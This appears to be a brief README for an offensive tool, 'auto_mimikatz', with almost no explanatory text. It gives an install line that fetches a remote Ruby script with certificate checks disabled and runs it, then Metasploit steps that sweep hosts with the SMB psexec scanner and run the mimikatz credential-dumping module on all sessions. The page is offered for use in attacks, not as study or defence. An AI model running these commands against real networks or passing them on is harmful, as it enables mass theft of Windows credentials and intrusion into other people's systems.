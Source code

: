 Install
=============

ruby -e "$(curl -fsSkL raw.github.com/nxnrt/auto_mimikatz/master/install.rb)"

How to use
=============

load post_auto

use auxiliary/scanner/smb/psexec_scanner

multi_post -m post/windows/gather/mimikatz -s all
